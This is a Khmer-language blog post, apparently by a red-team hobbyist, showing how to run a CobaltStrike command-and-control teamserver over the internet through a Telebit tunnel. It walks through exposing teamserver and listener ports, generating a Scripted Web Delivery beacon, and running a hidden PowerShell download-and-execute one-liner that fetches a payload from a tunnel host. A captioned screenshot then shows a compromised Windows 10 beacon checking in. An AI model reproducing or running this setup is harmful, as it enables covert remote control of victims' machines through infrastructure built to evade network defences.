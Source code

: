 ```yaml
---
title: "CobaltStrike Over WAN Connection"
date: 2022-12-06T22:01:06+07:00
description: តភ្ជាប់និងប្រើប្រាស់ពាក្យបញ្ជាក្នុង CobaltStrike ពីចំងាយ
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- tunnel
- over-wan
categories:
- C2
series:
- CobaltStrike
image: images/feature3/cobaltstrike.jpg
---
```


ខាងក្រោមនេះជាគំនិតផ្ទាល់ខ្លួនក្នុងការតភ្ជាប់ Teamserver និងប្រើប្រាស់ពាក្យបញ្ជាតាមរយៈ Beacons ពីចំងាយដោយមិនចាំបាច់បើក Port Forwarding ។

#### Requirements

* CobaltStrike
* Telebit

#### Telebit Setup

<b>ចំណាំ៖</b> ចូលទៅកាន់ [telebit.cloud](https://telebit.cloud) ដើម្បីយល់ដឹងបន្ថែមអំពី Configuration ។

នៅក្នុងលីនុចសូមបើកផ្ទាំង Terminal រួចវាយពាក្យបញ្ជាដូខខាងក្រោម៖

{{< highlight zsh "linenos=table" >}}
// Install Telebit
curl https://get.telebit.io/ | bash
{{< / highlight >}}

![Install Telebit](/en/posts/img/2022/12/cbs-over-wan/install-telebit.jpg)

ក្រោយពីបំពេញអាសយដ្ឋាន Email រួចសូមចូលទៅកាន់ផ្ទាំង Inbox រួចបើកដំណើរដំណភ្ជាប់ដែលគេបានផ្ញើមក និងចម្លងចូលនូវលេខទាំង ៤ ខ្ទង់នោះដើម្បីផ្ទៀងផ្ទាត់ ។

![Verify Code](/en/posts/img/2022/12/cbs-over-wan/verify-code.jpg)

![Verified](/en/posts/img/2022/12/cbs-over-wan/verified.jpg)

ប្រសិនបើមិនមានអ្វីខុសឆ្គងទេ យើងនឹងទទួលបានសារបញ្ជាក់ពីភាពជោគជ័យដូចខាងក្រោម៖

![Usage](/en/posts/img/2022/12/cbs-over-wan/telebit-usage.jpg)

#### Usage


តស់! ឥលូវចាប់ផ្ដើមធ្វើការកំណត់នៅលេខ Port សម្រាប់តភ្ជាប់ទៅកាន់ Teamserver និង Beacons

{{< highlight zsh "linenos=table" >}}
// Setup Teamserver Port
~/telebit tcp 50050

// Setup HTTP Beacon
~/telebit http 80 //don't change the port
{{< / highlight >}}

![Teamserver/Beacon Setup](/en/posts/img/2022/12/cbs-over-wan/teamserver-beacon-setup.jpg)

#### Teamserver Connection

បន្ទាប់មកសូមវាយពាក្យបញ្ជាដូចខាងក្រោមដើម្បីបើកដំណើរការ Teamserver

{{< highlight zsh "linenos=table" >}}
sudo ./teamserver x.x.x.x your_password
{{< / highlight >}}

![Start Teamserver](/en/posts/img/2022/12/cbs-over-wan/start-teamserver.jpg)

ដូច្នេះយើងសាកល្បងតភ្ជាប់ Teamserver ដោយប្រើប្រាស់លេខអាយភីរបស់ telebit.cloud ដូចខាងក្រោម៖

![Connect To Teamserver](/en/posts/img/2022/12/cbs-over-wan/connect-teamserver.jpg)

សូមឲ្យប្រាកដថាលេខអាយភី (អាច ping ចេញពី telebit.cloud) លេខច្រក (Port) និង លេខសំងាត់គឺត្រឹមត្រូវមុននិងចុចតភ្ជាប់។

![CobaltStrike Connected](/en/posts/img/2022/12/cbs-over-wan/cbs-connected.jpg)

ជោគជ័យ! ឥលូវនេះយើងបានតភ្ជាប់ Teamserver បានសម្រេច។

#### Adding HTTP/HTTPS Listener

ខាងក្រោមនេះជាវិធីក្នុងការបើកដំណើរការ Listener ពីចំងាយដោយប្រើប្រាស់ Protocol ប្រភេទ HTTP។

![HTTP Listener](/en/posts/img/2022/12/cbs-over-wan/http-listener-80.jpg)

ដោយសារតែ Telebit ត្រូវបាន Redirect ទៅកាន់ Protocol ប្រភេទ HTTPS ដូចនេះយើងក៏ត្រូវតែបើក Listener ជាប្រភេទ HTTPS មួយទៀត។

សូមធ្វើការបើក HTTPS Listener ដូចបានបង្ហាញខាងក្រោម៖

![HTTPS Listener](/en/posts/img/2022/12/cbs-over-wan/https-listener-443.jpg)

#### Generate Beacon

ការកំណត់ខាងលើរួចរាល់អស់ហើយ ដូចនេះយើងអាចសាកល្បងបង្កើត Beacon ដើម្បីតភ្ជាប់។
នៅក្នុងការបង្ហាញនេះយើងនិងប្រើប្រាស់ការវាយប្រហារបែប Scripted Web Delivery ។

![HTTP Beacon](/en/posts/img/2022/12/cbs-over-wan/scripted-web-delivery.jpg)

<b>ចំណាំ៖</b> នៅពេលដែលបានបង្កើតរួចសូមធ្វើការកែប្រែនៅផ្នែកមួយចំនួនដូចជាប្រភេទ Protocol និង Port ដូចខាងក្រោម៖

{{< highlight plain "linenos=table" >}}
// By default it will download from port 80 without https
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://shy-impala-40.telebit.io:80/foo'))"

// Then we have to remove the port and add https instead
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('https://shy-impala-40.telebit.io/foo'))"
{{< / highlight >}}

#### Execute

យើងបានសាកល្បងបើកដំណើរការនៅក្នុងវីនដូ ១០ ប្រភេទ Pro x64 Bit ដូចរូបខាងក្រោម៖

![Exec Powershell](/en/posts/img/2022/12/cbs-over-wan/exec-powershell.gif)

ប្ដូទៅមើលផ្ទាំងគ្រប់គ្រង CobaltStrike យើងនឹងទទួលបានការតភ្ជាប់ Beacon ពីវីនដូ ១០ នោះ៕

![C2 Connected](/en/posts/img/2022/12/cbs-over-wan/c2-connected.jpg)
